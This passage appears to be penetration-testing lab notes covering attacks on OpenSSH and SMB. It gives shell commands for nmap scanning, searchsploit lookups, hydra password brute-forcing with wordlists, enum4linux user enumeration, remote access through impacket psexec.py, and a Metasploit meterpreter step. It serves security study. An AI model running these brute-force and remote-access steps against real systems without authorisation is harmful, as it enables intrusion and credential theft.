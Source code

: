 
### 6.3. Targeting OpenSSH

**OpenSSH** is a critical component in network security, offering encrypted communication sessions over a computer network using the SSH protocol. In this section we are going to:
- Identify server vulnerabilities
- Utilize brute force attacks to discover valid user credentials
- Gain remote access to the system

```shell
ping -c 1 <target_IP>
nmap -sV -sC -p 22 <target_IP>
# Given that we have obtained the exact version of OpenSSH running on the target system.

# We can now utilize Searchsploit to search for exploits that affect this specific version of OpenSSH.
searchsploit OpenSSH 7.1
# We can utilize these scripts to enumerate user accounts on the target system.


# We can also perform a brute-force attack on the OpenSSH server to identify legitimate credentials that can be used to authenticate with the target system.
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <target_IP> ssh

ssh <user>@<target_IP>

ls -al
pwd
whoami
net localgroup admin
# Disable SSH logins into the administrator account is a good practice from administrators  
```

### 6.4. Targeting SMB

Focus on:
- exploiting SMB vulnerabilities on a Windows target, 
- outlining methods to scan for weaknesses, 
- perform brute force attacks to acquire credentials,
- utilize these credentials for deeper system access and control.

```shell
ping -c 1 demo.ine.local
nmap -sV -sC -p445 <target_IP>

# We can use these user accounts to perform a brute force attack to identify legitimate SMB credentials that we can use to authenticate with the target system.
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt <target_IP> smb
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt <target_IP> smb

# Now that we have legitimate SMB credentials, we can use them to enumerate other user accounts on the Windows target by leveraging an enumeration utility called enum4linux.
enum4linux -u <username> -p <password> -U <target_IP>

# Given that we have legitimate user credentials on the Windows target, we can remotely authenticate with the target system via SMB to obtain remote access to the target system. This can be done through the use of the Python implementation of PsExec.
cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop
chmod +x psexec.py
python3 psexec.py Administrator@<target_IP>

# We can also utilize the exploit/windows/smb/psexec Metasploit module to obtain a meterpreter session on the target system.
msfconsole
```